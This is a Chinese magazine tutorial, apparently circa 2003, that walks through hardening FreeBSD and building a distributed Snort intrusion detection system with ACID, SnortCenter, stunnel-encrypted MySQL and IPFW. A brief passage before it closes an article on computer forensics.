- 安装网警，检测是否存在其他入侵。目前网警已经处于正常运行中。
- 联系某 ISP 进行取证，发现入侵源。在确保安全的情况下，获取攻击者的大量证据。

事后取证：在已遭受入侵的情况下，运用日志分析详细地审查系统日志文件。进行分析取证工作，可以了解入侵过程中攻击者执行了哪些操作，以及哪些远程主机访问了你的主机。网络工程师分析了 202.xxx.xxx.208 的 IIS 日志和在 3 月 6 日入侵系统时的日志，最终将该案肇事者锁定。

### 六、后记

由于目前的网络安全研究多着眼于入侵防范，而对于入侵后的取证问题研究甚少，可利用的工具就更少了。计算机取证系统的研究，必须在坚持计算机取证的大原则下，遵循取证的步骤，确保证据的完整性、真实性、可靠性。在取证方案的选择上应该结合实时取证和事后取证两种方案，这样才可以有效地进行取证，并结合公安机关和法律的力量，将计算机犯罪行为有效地遏制住。

## 打造免费分布式入侵检测系统

对于大多数网络管理员和不少黑客来说，拥有一套功能强大完善的入侵检测系统一直是梦寐以求的事情，但其高昂的价格、复杂的配置往往让大多数公司望而却步，更别说是个人用户了。难道我们真的就只能止步于此，与入侵检测系统无缘了吗？事实并非如此，因为互联网提供了我们很多免费的功能强大的软件，只要我们开动脑筋、合理运用，同样可以打造一套属于自己的入侵检测系统，而这正是本文要教给大家的。通过本文，我们可以学到 FreeBSD 的安全设置、优化 FreeBSD 下的 TCP/IP 栈、FreeBSD 下内核的编译、IPFW 防火墙的安装配置、使用 Stunnel 加密隧道加密明文会话、FAMP 的安装，还有 Snort 入侵检测系统以及相关软件的使用等，心动了吧？

- 难度等级：高
- 前置知识：FreeBSD 相关知识，IDS 入侵检测系统相关知识，MySQL 配置知识。

文/图 左雪冰

在入侵行为非常普遍的今天，作为网管的你是不是很想知道外界对你的网络的种种动作，并针对这些动作做出反应？单一的网络入侵检测系统已经不能满足你的需求，因为可能你管理的不是一个单一的网络，或者你想针对公司内部不同部门所属的区域进行监测，这样就需要一个分布式的入侵检测系统了。当然，这类软件还是有的，但是都需要银子！这可是“不符合黑客守则”呀！怎么办呢？何不用几个免费软件自己架设一个分布式的入侵检测系统呢！

入侵检测系统运行在一台主机上，监视该主机上的恶意活动，被称为基于主机的入侵检测系统（HIDS）；入侵检测系统运行在网络数据流上则被称为基于网络的入侵检测系统（NIDS）。有时，“滥用”和“入侵”两个词是有区别的。“入侵”通常是指来自外网的攻击；而“滥用”通常用来描述来自内网的攻击。然而，大多数人并不划分得这么详细，最常用的两种入侵检测方法是统计异常发现和模式匹配，本文涉及到的……

### 入侵检测系统

入侵检测是能够检测到网络上不正常、不合法活动的网络技术，入侵检测系统运行在一台主机……则是基于网络的入侵检测系统。

另外，本文中说到的“Sensor”指的是那些分布在各地的装有 Snort 的系统，它们可以是 BSD、Linux 甚至是 Windows 系统，如图1所示。

### 主要工具

FAMP：也就是 FreeBSD、Apache、MySQL、Perl、PHP 的缩写，非常强大的 WWW 架站组合，不需要再做介绍了吧。

Snort：Martin Roesch 等人开发的一个 IDS 工具，基于 libpcap 库，是一个强大的轻量级网络入侵检测系统。它具有实时数据流量分析和记录 IP 网络数据包的能力，能够进行协议分析、对内容进行搜索/匹配，并且能够检测各种不同的攻击方式，对攻击进行实时报警。此外，Snort 支持各种形式的插件、扩充和定制，包括数据库或 XML 记录、小帧探测和统计异常探测等，具有入侵检测模式和嗅探器两种应用模式供我们选择。其官方网站为 http://www.snort.org 。

ACID：ACID（Analysis Console for Incident Databases）是 Snort 使用的标准分析页面控制台软件，它由 CERT Coordination Center 开发，是 AIRCERT 工程的一部分。它是一个基于 PHP 的分析引擎，能够搜索、处理 Snort 产生的数据库，而且可以生成图形报表。有了它就可以把一大堆枯燥的数据变得形象直观，以便管理员分析。其官方网站为 http://www.cert.org/kb/acid/ 。

OpenSSL：SSL 是 Secure Socket Layer（安全套接层协议）的缩写，可以在 Internet 上提供秘密性传输。SSL 采用公开密钥技术，其目标是保证两个应用间通信的保密性和可靠性，可在服务器端和用户端同时实现支持。安全套接层协议能使用户/服务器应用之间的通信不被攻击者窃听，并且始终对服务器进行认证，还可选择对用户进行认证。SSL 协议要求建立在可靠的传输层协议（TCP）之上，SSL 协议的优势在于它与应用层协议独立无关，高层应用层协议（例如 HTTP、FTP、Telnet 等）能透明地建立于 SSL 协议之上。应用层协议通信之前就已经完成加密算法、通信密钥的协商及服务器认证工作，在此之后应用层协议所传送的数据都会被加密，从而保证通信的私密性。SSL 协议提供的安全信道有安全验证、数据的一致性和数据的保密性 3 个特性。其官方网站为 http://www.openssl.org 。

Stunnel：可以使用 OpenSSL 库对任意 TCP 会话进行加密。它作为服务器运行在程序外部，主要执行两个功能：一是接收未加密的数据流，进行 SSL 加密，然后将其通过网络发送；二是对已进行 SSL 加密的数据流进行解密，并将其通过网络发送给另一个程序（该程序通常驻留在同一机器上，以避免本地网络上的窥探攻击）。用 Stunnel 来保护 POP、SMTP 和 IMAP 服务器可以防止明文数据被截获，拥有 Linux 和 Windows 两个版本。其官方网站为 http://www.stunnel.org/ 。

SnortCenter：是一个用 PHP 和 Perl 写的 Snort 规则管理工具，可以同时管理多个 Sensor（探头），支持 SSL 加密，内建身份验证机制，自动升级 Snort 规则库，创建编辑 Snort 规则库，支持模板以便部署多个 Sensor，还支持 SnortSAM。其官方网站为 http://users.pandora.be/larc/index.html 。

我们还要先准备 3 台计算机，两台普通 PC（分别叫 A 和 B），它们分别有两张网卡，做 Sensor 使用，均安装好 FreeBSD 4.8 操作系统；另一台高性能服务器作为数据中心使用，安装 FreeBSD 4.8。PC A 的一张网卡叫 ethA0，另外一张网卡叫 ethA1，而 PC B 的一张网卡叫 ethB0，另外一张网卡叫 ethB1。

### 系统优化

好了，工具准备好了，赶紧切入正题（不然读者朋友可都睡着了！PS：小编就睡过去了……）。我们先把刚装好作为数据中心的 FreeBSD 4.8 优化一下，下面只是简单地针对一个作为低流量 WWW 简单应用服务器的 FreeBSD 系统做的调整，如作他用，可能需要再调整一下，比如 TCP 的接收和发送窗口值等。

首先登录系统再 su 到 root，并执行 `chsh -s /usr/local/bin/bash;export PS1='\[\e[36;1m\]\u@\[\e[32;1m\]\h \w!'`，我比较喜欢 bash 的风格。

编辑 `/etc/rc.conf`：

```conf
kern_securelevel_enable="NO"
linux_enable="NO"
nfs_reserved_port_only="NO"
sendmail_enable="NONE"
sshd_enable="YES"
sshd_program="/usr/local/sbin/sshd"
usbd_enable="NO"
inetd_enable="NO"
```

再编辑 `/etc/sysctl.conf` 文件，在里面加入下面的内容：

```conf
net.inet.tcp.sendspace=32768
kern.ipc.somaxconn=1024
net.inet.icmp.drop_redirect=1
net.inet.icmp.log_redirect=1
net.inet.ip.redirect=0
net.inet6.ip6.redirect=0
net.inet.ip.sourceroute=0
net.inet.ip.accept_sourceroute=0
net.inet.icmp.bmcastecho=0
net.inet.icmp.maskrepl=0
net.inet.tcp.blackhole=2
net.inet.udp.blackhole=1
net.inet.udp.checksum=1
```

下面一条一条地解释一下它们都是干什么的。

`net.inet.tcp.sendspace=32768`

因为我们这个只做 WWW 服务，只需要把发送窗口增加得大一点就可以了。

```conf
kern.ipc.somaxconn=1024
```

限制接收 TCP 连接的侦听队列（listen queue）的大小。缺省是 128，我们把它增加到 1024，大的侦听队列能更好地抵挡 DoS 攻击。

```conf
net.inet.icmp.drop_redirect=1
```

```conf
net.inet.icmp.log_redirect=1
net.inet.ip.redirect=0
net.inet6.ip6.redirect=0
```

上面的是调整 Redirects 参数，恶意用户可以使用 IP 重定向来修改远程主机中的路由表。在设计良好的网络中，末端的重定向设置是不需要的，发送和接收重定向信息包都要关闭。

```conf
net.inet.ip.sourceroute=0
net.inet.ip.accept_sourceroute=0
```

上面是调整源路由的设置，通过源路由，攻击者可以尝试到达内部 IP 地址，包括 RFC1918 中的地址，所以不接受源路由信息包可以防止你的内部网络被探测。

```conf
net.inet.icmp.bmcastecho=0
```

调整广播 ECHO 响应。Smurf 攻击就是一个伪造的地址通过发送 ICMP 8 0（ECHO REQUEST）信息到一个广播地址，所以必须关闭这个特征。

```conf
net.inet.icmp.maskrepl=0
```

针对其他广播探测的调整。其他还有两个广播探测可以让恶意用户利用，一个就是地址掩码查询，可以用来探测网络段大小和范围；另一个是时间戳广播，可以映射和鉴定主机类型。

```conf
net.inet.tcp.blackhole=2
net.inet.udp.blackhole=1
```

默认情况下，FreeBSD 和许多操作系统在关闭的端口上接收到 TCP SYN 段的时候，会发送 RST 信息包，也就是告诉攻击者这个端口关闭了，导致攻击者继续扫描下一个端口。一般情况下，我们都不愿意让别人轻易地得到自己的端口开放情况，并且不想浪费过多的 CPU 时间在 DoS 攻击上，因为我们可以使用 FreeBSD 系统中叫 blackhole 的特征。blackhole 用来控制当对一些没有 socket 监听的 TCP 或者 UDP 端口接收到连接请求时所操作的行为，你可以使用 `man blackhole` 获得详细的信息。当设置这个选项后，对那些连接没有 socket 监听的 TCP 或者 UDP 端口的连接，系统将马上丢弃这个包而不发 RST 包。连接端将看到“Connection reset by peer”。下面的操作，上面两行就可以激活这个特征。

```conf
net.inet.udp.checksum=1
```

对 UDP 包的校验和计算，可以防止不正确的 UDP 包攻击。

接着，再使用下面的 2 行命令保护一下 `/bin` 和 `/sbin` 下的程序。

```bash
#chflags schg /bin/*
#chflags schg /sbin/*
```

再安装 cvsup 并升级 port 树和源代码，这是很重要的一步。

```bash
[root@FBSD /] cd /usr/ports/net/cvsup
[root@FBSD /usr/ports/net/cvsup] make
[root@FBSD /usr/ports/net/cvsup] make install
make clean
```

这样就使用 port 方式装好了 cvsup 了。接着把 port 的 cvsup 文件复制到 `/usr` 并做如下修改。

```bash
[root@FBSD /usr/ports/net/cvsup]cp /usr/share/examples/cvsup/ports-supfile /usr/
[root@FBSD /usr/ports/net/cvsup]vi /usr/ports-supfile
```

偷个懒，升级全部 ports……然后只需要把 `*default host=CHANGE_THIS.FreeBSD.org` 改成 `*default host=cn.FreeBSD.org` 再保存退出即可。接下来开始后台升级。

```bash
[root@FBSD /usr/ports/net/cvsup]cvsup -g -L 2 /usr/ports-supfile > /dev/null 2>&1 &
```

当然，我们也可以把这个命令放到 cron 上，让它自动更新 ports 树。同样，把 stable-supfile 复制到 `/usr` 下做相应的修改并再 cvsup 一次。

```bash
[root@FBSD /usr/ports/net/cvsup]cvsup -g -L 2 /usr/stable-supfile > /dev/null 2>&1 &
```

经过一段时间，升级完毕，现在我们开始安装 MySQL。

```bash
[root@FBSD /usr/ports/net/cvsup]cd ../../databases/mysql40-server/
[root@FBSD /usr/ports/databases/mysql40-server] make
[root@FBSD /usr/ports/databases/mysql40-server] make install ; make clean
```

首先停了 MySQL：

```bash
[root@FBSD /usr/ports/databases/mysql40-server]/usr/local/etc/rc.d/mysql-server.sh stop
```

再把配置文件复制到 `/etc` 目录：

```bash
[root@FBSD /usr/ports/databases/mysql40-server]
cp /usr/local/share/mysql/my-large.cnf /etc/my.cnf
```

然后重新启动 MySQL：

```bash
[root@FBSD /usr/ports/databases/mysql40-server]/usr/local/etc/rc.d/mysql-server.sh start
```

设置密码：

```bash
[root@FBSD /usr/ports/databases/mysql40-server]
mysqladmin -u root password yourpassword
```

删除多余用户：

```bash
[root@FBSD /usr/ports/databases/mysql40-server]
mysql -u root -p
Enter password:
```

```sql
mysql> use mysql ;
Database changed
mysql> select user, host from user ;
```

| user | host      |
|------|-----------|
|      | FBSD      |
| root | FBSD      |
|      | localhost |
| root | localhost |

```sql
4 rows in set (0.01 sec)

mysql> delete from user where user="" ;
Query OK, 2 rows affected (0.00 sec)

mysql> delete from db where user="" ;
Query OK, 2 rows affected (0.00 sec)
再对比上面的看看：
mysql> select user, host from user ;
```

| user | host      |
|------|-----------|
| root | FBSD      |
| root | localhost |

```sql
2 rows in set (0.00 sec)
```

接着安装 apache1.3.28+mod_ssl：

```bash
[root@FBSD /usr/ports/databases/mysql40-server]
cd /usr/ports/www/apache13-modssl
[root@FBSD /usr/ports/www/apache13-modssl]
make
```

我们会看到类似这样的提示：

```text
+--------------------------------------------------+
| Before you install the package you now should    |
| prepare the SSL                                  |
| certificate system by running the 'make certifi- |
| cate' command.                                   |
| For different situations the following variants  |
| are provided.                                    |
+--------------------------------------------------+
```

```text
% make certificate TYPE=dummy    (dummy self-signed Snake Oil cert)
```

从这里就可以看出来，为什么不把 make 和 make install 用“;”连起来打，虽然这样方便一点，但是比较容易错过一些软件的提示信息，出了问题又不好说了，并且还可以修改 src 里的东西，比如修改 apache 的 banner 之类的。下面生成证书，并按照提示走下去：

```bash
[root@FBSD /usr/ports/www/apache13-modssl]
make certificate
1. Country Name              (2 letter code) [XY]: CN
2. State or Province Name    (full name) [Snake Desert]: HENAN
3. Locality Name             (eg, city) [Snake Town]: ZHENGZHOU
4. Organization Name         (eg, company) [Snake Oil, Ltd.]: ZZU
5. Organizational Unit Name  (eg, section) [Webserver Team]: SECU
6. Common Name               (eg, FQDN) [www.snakeoil.dom]: SECU.ZZU.EDU.CN
7. Email Address             (eg, name@FQDN) [www@snakeoil.dom]: NEWBIE@ZZU.EDU.CN
8. Certificate Validity      (days) [365]:
```

提示成功之后：

```bash
[root@FBSD /usr/ports/www/apache13-modssl]
make install ; make clean
[root@FBSD /usr/ports/www/apache13-modssl]
apachectl startssl
```

安装完毕，测试一下是否支持 SSL 并输入刚才我们的密码：

```text
Apache/1.3.28 mod_ssl/2.8.15 (Pass Phrase Dialog)
Server new.host.name:443 (RSA)
Enter pass phrase:
Ok: Pass Phrase Dialog successful.
/usr/local/sbin/apachectl startssl: httpd started
```

现在我们 https://ip 看看，应该看得到内容了。但是每次用 startssl 来启动 Apache 都要写密码很麻烦，我们稍做修改，然后再重新启动 Apache SSL，就不需要密码了。

```bash
[root@FBSD /usr/ports/www/apache13-modssl]
cd /usr/local/etc/apache/ssl.key
[root@FBSD /usr/local/etc/apache/ssl.key] mv server.key server.key.bak
[root@FBSD /usr/local/etc/apache/ssl.key] openssl rsa -in server.key.bak -out server.key ; chmod 400 server.key
```

为了测试方便，我们也在本机装上 Snort 并且让其支持 MySQL：

```bash
[root@FBSD /usr/local/etc/apache/ssl.key] cd /usr/ports/security/snort
```

修改 Makefile，让其支持 MySQL，并把创建数据库的脚本复制到 /tmp 目录去，等会需要用到：

```bash
[root@FBSD /usr/ports/security/snort] vi Makefile
把 CONFIGURE_ARGS= --with-mysql=no --with-odbc=no --with-postgresql=no 改成
CONFIGURE_ARGS= --with-mysql --with-odbc=no --with-postgresql=no
[root@FBSD /usr/ports/security/snort] make ; cp work/snort-2.0.1/contrib/create_mysql /tmp/create.mysql
[root@FBSD /usr/ports/security/snort] make install ; make clean
```

再为 Snort 建一个放日志的地方：

```bash
[root@FBSD /usr/ports/security/snort] mkdir /var/log/snort
```

然后安装 ADODB：

```bash
[root@FBSD /usr/ports/databases/adodb] make ; make install ; make clean
```

跟着安装 libpng：

```bash
[root@FBSD /usr/ports/graphics/png] make ; make install ; make clean
```

再安装 jpeg：

```bash
[root@FBSD /usr/ports/graphics/jpeg] make ; make install ; make clean
```

安装 jpgraph：

```bash
[root@FBSD /usr/ports/graphics/jpgraph] make ; make install ; make clean
```

安装 gd：

```bash
[root@FBSD /usr/ports/graphics/gd] make ; make install ; make clean
```

安装 phplot：

```bash
[root@FBSD /usr/ports/graphics/phplot] make ; make install ; make clean
```

最后安装 png 和 mod_php4：

```bash
[root@FBSD /usr/ports/graphics/png] cd /usr/ports/www/mod_php4
[root@FBSD /usr/ports/www/mod_php4] make ; make install ; make clean
在跳出窗口的 php configuration options 里选上 BZIP2、CTYPE、GD、MIME、MYSQL、OPENSSL、OVERLOAD、PCRE、POSIX、SESSION、SOCKETS、TOKENIZER、XML、ZIP 和 ZLIB。
```

编辑 /usr/local/etc/apache/httpd.conf，让它支持 PHP。其实我们也不需要做什么了，因为 ports 已经帮我们做好了，我们只需要加上：

```apache
AddType Application/x-httpd-php .php
AddType Application/x-httpd-php .php3
AddType Application/x-httpd-php .php4
```

把主目录设置到 /usr/local/www，只监听 443 端口（注释掉 80 端口），这样就只能通过 https 访问了。保存退出。这样，一个强大的 FAMP 就算完成了。

### 安装配置 ACID

下面开始安装 ACID。

```bash
[root@FBSD /usr/ports/www/mod_php4] cd /usr/ports/security/acid
[root@FBSD /usr/ports/security/acid] make ; make install ; make clean
```

接着，我们给 FreeBSD 系统添加一个叫 Snort 的用户：

```bash
[root@FBSD /] adduser -s
Enter username [[a-z0-9][a-z0-9_-]*\$]: snort
Enter full name []: snort
Enter shell bash csh date no sh tcsh [no]: no
Enter home directory (full path) [/home]: /home/snort
Uid [1000]:
Enter login class: default []:
Login group snort [snort]:
Login group is 'snort'. Invite snort into other groups: guest no
[no]:
Enter password []:
Enter password again []:
Added user 'snort'
```

确认一下 Snort 用户没有 Shell：

```bash
[root@FBSD /] grep snort /etc/passwd
snort:*:1000:1000:snort:/home/snort:/nonexistent
```

修改 Snort 的日志目录权限：

```bash
[root@FBSD /] chown -R snort:snort /var/log/snort
```

接着在 MySQL 里创建需要的数据库：

```sql
[root@FBSD /] mysql -u root -p
Enter password:
mysql> create database snort;
Query OK, 1 row affected (0.00 sec)

mysql> create database snort_archive;
Query OK, 1 row affected (0.00 sec)

mysql> use snort;
Database changed

mysql> source /tmp/create.mysql
Query OK, 0 rows affected (0.00 sec)

mysql> use snort_archive;
Database changed

mysql> source /tmp/create.mysql
Query OK, 0 rows affected (0.00 sec)
```

为了省事，我们就用 MySQL 的 root 用户来访问数据库吧，更加细致的设置已经不属于本文的范畴了。

然后配置 Snort，编辑它的配置文件，把它的日志写入 MySQL 数据库。因为这个是测试用的，所以不需要对配置做过多修改，只要改我们需要的地方就可以了。

```bash
[root@FBSD /] vi /usr/local/etc/snort.conf
```

我们可以看到有类似这样的一段：

```conf
#### output database: alert, mysql, user=root
#### password=yourpassword dbname=snort host=localhost
```

把注释去掉，并写上正确信息。然后执行 Snort，可以看到类似下面的结果：

```text
[root@FBSD /usr/local/etc] snort

database: compiled support for ( mysql )
database: configured to use mysql
database: user = root
database: password is set
database: database name = snort
database: host = localhost
database: sensor name = 202.196.65.156
database: sensor id = 1
database: schema version = 106
database: using the "alert" facility
```

为了让 Snort 在启动的时候自动运行，我们需要在 /usr/local/etc/rc.d 下创建一个叫 snort.sh 的脚本，并赋予它执行权限。

```bash
[root@FBSD /usr/local/etc] cat > /usr/local/etc/rc.d/snort.sh
#!/bin/sh
sleep 10
/usr/local/bin/snort -u snort -g snort -D > /dev/null 2>&1
[root@FBSD /usr/local/etc] chmod +x /usr/local/etc/rc.d/snort.sh
```

OK，Snort 运行没问题了，我们现在编辑 /usr/local/www/acid 下的 acid-config.php 文件：

```bash
[root@FBSD /usr/local/www/acid] vi acid-config.php
```

下面的内容需要修改：

```php
$alert_dbname      = "snort";
$alert_host        = "localhost";
$alert_port        = "";
$alert_user        = "root";
$alert_password    = "yourpassword";

/* Archive DB connection parameters */
$archive_dbname    = "snort_archive";
$archive_host      = "localhost";
$archive_port      = "";
$archive_user      = "root";
$archive_password  = "yourpassword";
$ChartLib_path     = "/usr/local/share/jpgraph";
$portscan_file     = "/var/log/snort/portscan.log";
```

然后初始化 ACID，并按照说明一路点下去：  
https://your-ip-add/acid/（图2）

图 2

可能我们不想任何人都可以访问这个目录。如果只是你一个人看，在 httpd.conf 里设置 allow from your-ip 就可以了；如果你想有密码的人都可以看，我们就得做点东西了。编辑 httpd.conf 文件并加入下面的内容：

```apache
<Directory "/usr/local/www/acid/">
    authtype basic
    authname "Private"
    authuserfile /usr/local/etc/apache/passwd
    require user yourname
    Options Indexes FollowSymLinks MultiViews
    AllowOverride None
</Directory>
```

接着创建密码文件：

```bash
[root@FBSD /] htpasswd -c /usr/local/etc/apache/passwd yourname
New password:
Re-type new password:
Adding password for user yourname
```

现在我们再访问 ACID 目录就需要密码了。

### 安装配置 snortcenter 与 stunnel

下面我们开始装 snortcenter，下载、解压缩并改名为 sc：

```bash
[root@FBSD /tmp] wget http://users.pandora.be/larc/download/snortcenter-v1.0-RC1.tar.gz
[root@FBSD /tmp] tar zxf snortcenter-v1.0-RC1.tar.gz -C /usr/local/www/
[root@FBSD /usr/local/www] mv www/ sc
```

安装 curl，接着创建一个叫 snortcenter 的数据库：

```sql
mysql> create database snortcenter;
Query OK, 1 row affected (0.00 sec)
```

然后，修改 sc 目录下的 config.php 文件：

```bash
[root@FBSD /usr/local/www/sc] vi config.php

修改下面的内容：
$DBlib_path = "/usr/local/www/data/default/php/adodb";
$curl_path = "/usr/local/bin/curl";
$DB_dbname = "snortcenter";
$DB_host = "localhost";
$DB_user = "root";
$DB_password = "yourpassword";
```

通过浏览器访问 https://your-ip/sc/，这时会出现一个安装成功信息的窗口，我们注销并使用“admin”用户和“change”密码来登录，然后立即修改密码。snortcenter 可以很好地管理 sensor，等下面我们安装完 sensor 再详细讨论。

下面我们安装 stunnel，我们用它来加密 MySQL 会话，当然还可以用来加密很多东西。

```bash
[root@FBSD /usr/ports/security/stunnel] make
[root@FBSD /usr/ports/security/stunnel] make install
[root@FBSD /usr/ports/security/stunnel] make clean
[root@FBSD /usr/ports/security/stunnel] cd /usr/local/etc/stunnel
```

把示范配置文件复制并改个名：

```bash
[root@FBSD /usr/local/etc/stunnel] cp stunnel.conf-sample stunnel.conf
```

让 root 可以写这个文件：

```bash
[root@FBSD /usr/local/etc/stunnel] chmod 644 stunnel.conf
```

下面生成一个证书，写入相应内容就可以了：

```bash
[root@FBSD /usr/local/etc/stunnel] openssl req -new -out test.pem -keyout test.pem -nodes -x509 -days 365
```

```text
Generating a 1024 bit RSA private key
writing new private key to 'test.pem'
You are about to be asked to enter information
that will be incorporated
into your certificate request.
Country Name (2 letter code) [AU]: CN
State or Province Name (full name) [Some-State]: HeNan
Locality Name (eg, city) []: ZhengZhou
Organization Name (eg, company) [Internet Widgits Pty Ltd]: SECU
Organizational Unit Name (eg, section) []: NOC
Common Name (eg, YOUR name) []: ZZU
Email Address []: test@test.com
```

回答了几个简单的问题之后，证书就生成了：

```bash
[root@FBSD /usr/local/etc/stunnel] ls test.pem
test.pem
```

把所有者改成 stunnel 用户和 stunnel 组，这个用户和组是 ports 自己给我们加的：

```bash
[root@FBSD /usr/local/etc/stunnel] chown stunnel:stunnel test.pem
```

设置只有属主读权限：

```bash
[root@FBSD /usr/local/etc/stunnel] chmod 400 test.pem
```

修改文件名让 stunnel 自动启动，因为系统会自动查找 /usr/local/etc/rc.d 下以 sh 结尾的程序并启动它们：

```bash
[root@FBSD /usr/local/etc/stunnel] cp /usr/local/etc/rc.d/stunnel.sh.sample /usr/local/etc/rc.d/stunnel.sh
```

为 stunnel 建立一个临时目录并把属主设置为 stunnel 用户和 stunnel 组：

```bash
[root@FBSD /usr/local/etc/stunnel] mkdir /var/...
```

```bash
tmp/stunnel/
[root@FBSD /usr/local/etc/stunnel] chown stunnel:stunnel /var/tmp/stunnel/
```

然后编辑 stunnel.conf 文件，建立一个 MySQL 用的 tunnel，这样我们的 sensor 就可以通过 3307 端口远程访问 MySQL 服务了，而且通信是经过加密的。

```bash
[root@FBSD /usr/local/etc/stunnel] vi stunnel.conf
```

加入下面的几行，保存退出：

```ini
[mysql]
accept = 3307
connect = 127.0.0.1:3306
```

### 安装配置 IPFW 防火墙

现在我们需要安装 IPFW 防火墙，以便做一些访问控制：

```bash
[root@FBSD /] cat >> /etc/rc.conf
firewall_enable="YES"
firewall_script="/etc/rc.firewall"
firewall_type="CLIENT"
firewall_quiet="YES"
firewall_logging_enable="YES"
log_in_vain="YES"
tcp_restrict_rst="YES"
icmp_drop_redirect="YES"
```

重新编译内核以支持 IPFW：

```bash
[root@FBSD /] cd /sys/i386/conf/
[root@FBSD /] cp GENERIC FW
```

并把下面这 3 行加到 FW 文件里去：

```conf
options IPFIREWALL
options IPFIREWALL_VERBOSE
options IPFIREWALL_VERBOSE_LIMIT=10
```

如果你是远程配置，最好加上下面的一句，这样防火墙的最后一条规则就是 allow ip from any to any 了，自己权衡一下利弊再决定加不加吧。当然，我们可以先加上，等配置全部完成之后，再把这行注释掉并重新编译内核，用不了多少时间：

```conf
options IPFIREWALL_DEFAULT_TO_ACCEPT
```

开始编译内核：

```bash
[root@FBSD /sys/i386/conf] cd /usr/src/
[root@FBSD /usr/src] make buildworld
这个需要好长的时间……请耐心等待……
[root@FBSD /usr/src] make buildkernel KERNCONF=FW
[root@FBSD /usr/src] make installkernel KERNCONF=FW
```

一定要记得做下面这个动作，否则你得去控制台配置。编辑 rc.firewall，针对下面的部分做出修改，中文是注解。

```bash
[root@FBSD /usr/src] vi /etc/rc.firewall
#### set these to your network and netmask and ip
```

在下面写上你的网络信息：

```conf
net="110.110.110.0"
mask="255.255.255.0"
ip="110.110.110.10"
```

把下面这一条加进去，限制可以访问 22 端口的 IP：

```bash
${fwcmd} add pass log tcp from 110.110.110.110/24 to ${ip} 22 setup
```

再把下面这条注释掉，NTP 没必要用，毕竟本文只是写给国内的朋友看的，各个地区的时间相差不会太大吧。如果你的 sensor 在国外，或者你真的很在意几个 sensor 和 data server 时间的一致性，可以跑个 NTPD 的，如果你有这个打算，相信你可以自己做到。

```bash
#### ${fwcmd} add pass udp from ${ip} to any 123 keep-state
```

备份 /etc 目录并把打包文件放到根目录：

```bash
[root@FBSD /usr/src] tar -cvzf etc.tgz /etc
[root@FBSD /usr/src] cp etc.tgz /
[root@FBSD /usr/src] reboot
```

进入单用户模式，也就是在启动时使用 boot -s 命令。进入单用户模式之后，装载 fstab 上的所有分区：

```bash
Single Mode# mount -a
Single Mode# make installworld
Single Mode# mergemaster -p
[root@FBSD /usr/src] reboot
```

可能有人问“为什么要 make world”呢？其实是这样的，因为我们使用 CVSUP 升级了 ports 等，导致用户空间和内核不一致。如果不 make world 的话，在你使用 ps 等命令的时候，就会出错了。重新启动之后，防火墙就加载了，我们可以在 /var/log/messages 看到。为了让 datacenter 更加安全，我们得使用 kernel securelevel 这个很强大的功能。它分为 5 个级别：-1、0、1、2、3。下面简单说说这 5 个级别的不同之处：

- **securelevel -1**：默认级别，没有提供任何内核保护措施；
- **securelevel 0**：系统启动初期级别，进入多用户模式后会自动变为 1；
- **securelevel 1**：限制包括：
  - 不能通过 kldload 或 kldunload 加载或卸载可加载内核模块；
  - 应用程序不能通过 `/dev/mem` 或 `/dev/kmem` 直接写内存；
  - 不能直接往已装载（mounted）的磁盘写（如格式化），但可以通过标准内核接口进行写操作；
  - 不能启动 X-windows，同时不能使用 chflags 修改文件属性；
- **securelevel 2**：在 1 基础上，不能写未装载磁盘，且不能在 1 秒内制造多次系统警告（防止 DoS 控制台）；
- **securelevel 3**：在 2 之上不允许修改 IPFW 规则。

我们在这里使用 securelevel 3 就可以了，修改 /etc/rc.conf，加入：

```conf
kern_securelevel_enable="YES"
kern_securelevel="3"
```

然后再重新启动，kern_securelevel 就生效了。好，到此为止，datacenter 已经安装完毕了！

### 配置 sensor

对系统的优化和安全设置这里就不重复了。sensor 有两块网卡，我们假设一块叫 fxp0，作为管理用，配置上 IP 地址；另外一块叫 rl0，我们只需要在 /etc/rc.conf 加这样一条就可以了。

```conf
ifconfig_rl0="up"
```

然后添加 snort 用户和 snort 组，并通过 ports 安装我们需要的软件，包括 mysqlclient、wget、stunnel、snort、lynx。需要注意的是，snort 安装时要在 Makefile 里指定支持 MySQL，否则无法把数据写入 MySQL 数据库。安装完 snort 后还需要建立 `/var/log/snort` 目录并设置属主为 snort 用户，修改 snort.conf 文件把数据导入数据库。开始配置 stunnel，下面做法和上面类似，相同部分就不注释了：

```bash
[root@SENSOR1 /usr/local/etc/stunnel] cp stunnel.conf-sample stunnel.conf
[root@SENSOR1 /usr/local/etc/stunnel] chmod 644 stunnel.conf
```

我们还要把刚才我们在 datacenter 生成的那个证书下载到 sensor1 的 /usr/local/etc/stunnel 目录下并设置相应的属主和权限。

```bash
[root@SENSOR1 /usr/local/etc/stunnel] chown stunnel:stunnel test.pem
[root@SENSOR1 /usr/local/etc/stunnel] chmod 400 test.pem
[root@SENSOR1 /usr/local/etc/stunnel] cp /usr/local/etc/rc.d/stunnel.sh.sample /usr/local/etc/rc.d/stunnel.sh
[root@SENSOR1 /usr/local/etc/stunnel] mkdir /var/tmp/stunnel
[root@SENSOR1 /usr/local/etc/stunnel] chown stunnel:stunnel /var/tmp/stunnel/
```

然后编辑 stunnel.conf 文件，建立一个到 datacenter 的 tunnel，就可以通过 stunnel 访问远程的 datacenter 的 MySQL 服务了。

```bash
[root@SENSOR1 /usr/local/etc/stunnel] vi stunnel.conf
```

修改下面的几行，保存退出。

```ini
#### Use it for client mode
client = yes

[sensor]
accept = 127.0.0.1:3306
connect = (datacenter的IP):3307
```

接着我们重新启动 stunnel：

```bash
[root@SENSOR1 /] /usr/local/etc/rc.d/stunnel.sh stop
[root@SENSOR1 /] /usr/local/etc/rc.d/stunnel.sh start
```

然后用 ps、netstat 和 lsof 验证一下 stunnel 是否成功启动：

```bash
[root@SENSOR1 /] ps -aux | grep stunnel
stunnel ... /usr/local/sbin/stunnel /usr/local/etc/stunnel/stunnel.conf

[root@SENSOR1 /] lsof -i | grep stunnel
stunnel ... TCP localhost:ZZU.EDU.CN:3306 (LISTEN)

[root@SENSOR1 /] netstat -an
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address Foreign Address (state)
tcp4 ... 127.0.0.1.3306 ... LISTEN
```

我们可以看到 stunnel 进程启动并且监听了 3306 端口，这样，我们的 MySQL 数据就会被转发到 datacenter 主机。

到这里，一个 sensor 就基本上配置完毕了。最后，我们可以在 snortcenter 里添加 sensor，以后 snortcenter 就会为这个 sensor 自动更新规则库了。

当然，本文不可能完全地描述搭建分布式入侵检测系统的所有问题，很多细节上的东西需要大家研究和互相探讨；如果你有新的建议或在搭建过程中碰到没法解决的问题，可以登录我们的论坛（www.hacker.com.cn/newbbs）一起进行讨论。
